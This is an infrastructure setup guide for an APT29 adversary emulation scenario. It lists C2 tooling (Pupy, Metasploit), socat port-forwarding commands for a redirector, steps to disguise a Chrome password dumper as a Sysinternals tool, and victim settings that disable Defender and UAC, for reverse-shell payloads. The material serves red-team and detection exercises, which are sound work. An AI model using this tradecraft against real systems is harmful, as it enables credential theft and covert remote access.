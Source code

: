 # Scenario 1 Infrastructure

We hope to capture the general structure of what is reported to have been seen being used by APT29.  The infrastructure listed below is specific to Scenario 1.  The requirements described herein should be considered a bare minimum to execute the scenario.  If you have the time and resources to remain true-to-form, you may elect to stand up multiple of each of these servers, non-contiguous IP space, etc.  If you are not concerned with emulating APT29 to this degree, this level of effort is not necessary.  You could for instance, phish, serve payload, and exfil from/to the same server.

---

## Emulation Team Infrastructure

1. **Attack Platform**: tested and executed on Ubuntu 18.04.3 LTS
    - C2 Framework
        - [Pupy](https://github.com/n1nj4sec/pupy)
        - [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
    - [Chrome Password Dumper](https://github.com/adnan-alhomssi/chrome-passwords)
    - [Sysinternals Suite Zip file](https://download.sysinternals.com/files/SysinternalsSuite.zip)
    - [WebDAV Share](https://www.digitalocean.com/community/tutorials/how-to-configure-webdav-access-with-apache-on-ubuntu-14-04)

2. **Redirector**: tested and executed on Ubuntu 18.04.3 LTS
    - [Socat](https://linux.die.net/man/1/socat)

3. **Windows Attack Platform**: Windows 10 x64 version 1903
    - [Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage)
    - [Python 3](https://www.python.org/downloads/)
    - [PyInstaller](https://www.pyinstaller.org/)

    **Note:** The Windows attack platform is only required if you would like to compile the Scenario 1 payloads. If you use the pre-compiled payloads, you do not need this system.

---

## Emulation Team Infrastructure Configuration

This methodology assumes the following static IP address configurations:

| Red Team System | IP Address |
| ------ | ------ |
| Attack Platform | 192.168.0.4 |
| Redirector | 192.168.0.5 |

#### A note about red team payloads

- This evaluation utilizes four payloads that model APT29 malware.

- The payloads are customized variants of reverse shells from Pupy RAT and Metasploit.

- Pre-compiled payloads are available in the [resources](/apt29/Resources) directory; however, they are configured to connect back to static IP addresses 192.168.0.5 and 192.168.0.4.

- If you would like to build the payloads yourself, please see [payload_configs.md](/apt29/Resources/Scenario_1/payload_configs.md) for further instructions.

### Setup Redirector: 192.168.0.5 (or the value used for the Redirector IP)

From the redirector system, setup port forwarding using Socat.

```powershell
sudo socat TCP-LISTEN:443,fork TCP:192.168.0.4:443 & sudo socat TCP-LISTEN:1234,fork TCP:192.168.0.4:1234 & sudo socat TCP-LISTEN:8443,fork TCP:192.168.0.4:8443 &
```

#### Setup Attack Platform: 192.168.0.4

1. Download Chrome password dumper tool from: <https://github.com/adnan-alhomssi/chrome-passwords/raw/master/bin/chrome-passwords.exe>
2. Download SysInternals zip folder from: <https://download.sysinternals.com/files/SysinternalsSuite.zip>
3. Unzip `SysinternalsSuite.zip`; copy the following files into the SysInternalsSuite directory:
   - `readme.txt`
   - `psversion.txt`
   - `chrome-passwords.exe` (renamed as `accessChk.exe`)
   - `strings64.exe` (compiled from `hostui.cpp`)
4. Zip modified SysinternalsSuite folder
5. Install Pupy and Metasploit on Attack Platform by running `install_day1_tools.sh`
6. Start Pupy docker container then the EC4 listener
   - `sudo pupy/start-compose.sh`
   - `listen -a ec4`

---

## Target Infrastructure

1. 3 targets
    - 1 domain controller and 2 workstations
    - All Windows OS (tested and executed against Win10 1903)
    - Domain joined
    - Same local administrator account on both Windows workstations
2. [Google Chrome Web Browser](https://www.google.com/chrome/) must be available on one of the victim workstations

---

## Target Infrastructure Configuration

#### For each of the 2 target workstations:

1. Login in as user with administrator privileges
2. Ensure Windows Defender is off or configured to alert-only
3. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
4. Verify user has read/write/execute permissions in the C:\Windows\Temp directory
5. Install Google Chrome (https://www.google.com/chrome/); cache credentials in Chrome password manager
6. Import-PFX certificate found in [shockwave.local.pfx](/apt29/Resources/Scenario_1/shockwave.local.pfx). Instructions below:

#### Import PFX Certificate

Step 6.B of this emulation models [theft of Private Keys](https://attack.mitre.org/techniques/T1552/004/).

1. Copy the PFX certificate located in the [shockwave.local.pfx](/apt29/Resources/Scenario_1/shockwave.local.pfx) file to the Windows victims.

2. Import the certificate using PowerShell:

```powershell
Import-PfxCertificate -Exportable -FilePath "shockwave.local.pfx" -CertStoreLocation Cert:\LocalMachine\My
```

#### Add RTLO character and place rcs.3aka3.doc on Windows Victim-1

* See [payload_configs.md](/apt29/Resources/Scenario_1/payload_configs.md) for instructions on how to update [cod.3aka3.scr](/apt29/Resources/Scenario_1/cod.3aka3.scr)

---

## Additional Plan Resources

- [Intelligence Summary](/apt29/Intelligence_Summary.md)
- [Operations Flow](/apt29/Operations_Flow.md)
- [Emulation Plan](/apt29/Emulation_Plan/README.md)
  - [Scenario 1 - Infrastructure](/apt29/Emulation_Plan/Scenario_1/Infrastructure.md)
  - [Scenario 1](/apt29/Emulation_Plan/Scenario_1/README.md)
  - [Scenario 2 - Infrastructure](/apt29/Emulation_Plan/Scenario_2/Infrastructure.md)
  - [Scenario 2](/apt29/Emulation_Plan/Scenario_2/README.md)
  - [YAML](/apt29/Emulation_Plan/APT29.yaml)
- [Archive](/apt29/Archive)
- [Issues](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/issues)
- [Change Log](/apt29/CHANGE_LOG.md)
